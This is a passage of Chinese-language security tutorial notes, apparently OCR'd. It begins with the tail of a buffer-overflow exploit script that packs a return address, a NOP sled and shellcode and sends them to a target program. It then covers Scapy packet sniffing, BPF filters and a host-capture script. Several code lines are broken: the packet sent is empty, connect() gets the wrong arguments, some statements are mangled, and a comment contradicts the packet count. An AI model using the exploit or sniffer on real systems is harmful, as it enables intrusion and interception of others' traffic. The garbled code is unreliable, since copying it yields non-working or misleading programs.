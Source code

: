 ```python
payload += struct.pack("<I", 0x10017743)
#用来实现空指令滑行(40个NOPs)
payload += "\x90"*40
payload += shellcode
#发往目标主机的数据包
packet = ()
print "[+]Sending to Calc..."
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(host, port)
s.send(packet)
s.close()
```

# 网络嗅探&欺骗

```python
The quieter you are the more you are able to hear
```

#### 嗅探-总览

```python
所有通过网卡的数据都是可以被读取的
数据仅是按照不同协议组织到一起了
从协议去分析数据
当然，大厂有自己的自研协议
```

#### 嗅探-Scapy sniff()参数&&过滤器

```python
count:表示要捕获数据包的数量。默认为0，表示不限制数量
store:表示是否要保存捕获到的数据包。默认为1
prn:该参数其实是一个函数，该函数会应用在每一个捕获到的数据包上。若有返回值，则会显示出来。默认为空
iface:表示要使用的网卡或网卡列表
**************************************************************
伯克利包过滤语法，即BPF，使用原语来完成对数据包的描述
原语表达式可以用与或非等逻辑运算，也可以加以Type\Dir\Proto等限定词
可以确定应该获取、检查、过滤哪些流量
通过比较各个协议中数据字段值的方法对流量进行过滤
Type:用来规定使用名字或数字代表的类型，例如host\net\port
Dir:用来规定流量的方向，例如src\dst\src and dst
Proto:用来规定匹配的协议，例如ip\tcp\arp
```

#### 嗅探-工具代码

```python
#捕获和特定主机通信的1000个数据包，并保存到catch.pcap数据包中
from scapy.all import *
import sys
iflen(sys.argv) !=2:
    print('Usage:catchPackets<IP>\n eg:catchPackets 192.168.92.2')
    sys.exit(1)
ip = sys.argv[1]
def Callback(packet):
    print packet.show()
packets=sniff(filter="host"+ip,prn=Callback,count=5)
wrpcap("catch.pcap",packets)
```
